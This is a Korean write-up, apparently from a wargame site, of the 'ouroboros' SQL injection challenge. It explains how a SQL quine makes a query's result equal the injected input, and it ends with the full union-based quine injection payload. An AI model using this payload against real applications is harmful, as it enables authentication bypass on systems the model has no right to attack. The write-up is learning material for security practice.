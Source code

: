 

# [30] ouroboros

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FPLStF%2FbtrpwOBniqR%2Fk4UuZ0WXEm8MfJKfJHtKe0%2Fimg.png">

## 풀이

쿼리의 결과와 사용자의 입력값이 일치하는 지 검증하는 문제다.

pw를 찾아내면 쉽게 풀 수 있는 문제이기 때문에 아마 테이블 내부에 pw 값이 없을 것 같았다...

<br>

확인을 위해 where절을 True로 만들어줄 수 있는 쿼리를 주입해보았다.

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fbj49zN%2FbtrpqylywrC%2FthfadP8wuzaMwvKIL3k6pk%2Fimg.png">

테이블에 pw가 있다면 값이 뜰텐데... 감감무소식이었다.

아무래도 예상했듯 테이블에 pw가 없는 것 같았다.

<br>

다음은 union을 사용해 1을 기존 테이블에 붙여보았다.

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcd7R8j%2FbtrpyiWt8tZ%2FpmP1DlnD3fLOQjcku3LhT0%2Fimg.png">

이런 식으로 pw를 넣어주면 될 것 같은데...

문제는 쿼리의 결과인 pw 값과 사용자 입력값이 같아야한다는 점에 있다.

<br>

어떻게 해주면 될 지 답이 안나와서 힌트를 서치해보았다.

<br>

답은 **Quine**이었다.

Quine이란 자기자신의 소스 코드를 그대로 반환하는 프로그램을 말한다.

Sql로도 Quine을 만들 수가 있는데, 사실 직접 로직을 생각해내는 것 보다는 서치의 힘을 빌려야하는 것 같다.

<br>

다음은 대표적인 **Quine Query**의 예시다.

```sql
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")');
```

<br>

이를 적용하여 만든 최종 쿼리문은 다음과 같다.

```
'union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fs6Ugl%2Fbtrpu2sSfkX%2Fl9Y0Z3lPlbSJ6pG9V72RcK%2Fimg.png">